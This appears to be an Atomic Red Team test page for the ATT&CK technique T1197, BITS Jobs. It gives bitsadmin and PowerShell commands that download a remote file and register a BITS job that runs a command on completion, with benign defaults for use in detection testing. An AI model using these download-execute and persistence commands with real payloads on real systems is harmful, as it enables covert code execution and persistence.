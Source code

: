 ```yaml
---
title: T1197 - BITS Jobs
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197/)

<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.
<br/><br/>
The interface to create and manage BITS jobs is accessible through <a href="https://attack.mitre.org/techniques/T1086">PowerShell</a>  (Citation: Microsoft BITS) and the <a href="https://attack.mitre.org/software/S0190">BITSAdmin</a> tool. (Citation: Microsoft BITSAdmin)
<br/><br/>
Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)
<br/><br/>
BITS upload functionalities can also be used to perform <a href="https://attack.mitre.org/techniques/T1048">Exfiltration Over Alternative Protocol</a>. (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)
- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)
- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)
<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt` !

```
bitsadmin.exe  /transfer /Download /priority Foreground #{remote_file} #{local_file}
```
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload leveraging PowerShell

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `powershell` !

```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt` !

```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```
<br/>
